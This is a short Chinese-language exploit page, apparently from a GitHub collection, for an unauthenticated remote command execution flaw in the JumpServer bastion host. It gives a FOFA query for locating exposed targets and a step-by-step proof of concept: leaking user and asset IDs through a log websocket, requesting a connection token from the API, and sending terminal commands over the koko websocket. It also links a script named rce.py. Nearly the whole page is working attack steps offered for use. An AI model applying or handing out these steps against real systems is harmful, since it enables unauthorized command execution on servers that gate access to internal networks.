

# JumpServer 未授权接口 远程命令执行漏洞
## 资产搜索
fofa app="JumpServer-堡垒机"  

## POC
1. websocket进行日志查询：  
```url
ws://ip:port/ws/ops/tasks/log/

{"task":"/opt/jumpserver/logs/gunicorn"}
```  
查找`asset_id system_user_id user_id`三个数据  
  
或者查找一下Task id数据，然后send`{"task":"找到的Task id"}`，可能会泄漏一些敏感信息。  

2. 获取token：
```url
POST请求 http://ip:port/api/v1/authentication/connection-token/?user-only=1

{"user": "xxx","asset": "xxx","system_user": "xxx"}
```
这个token有效时间只有20秒  
  

3. RCE
```url
ws://ip:port/koko/ws/token/?target_id={获取到的token}

{id:"{获取到的token}",type:"TERMINAL_INIT",data: "whoami"}
```
chrome插件：WebSocket King  
[利用脚本](rce.py)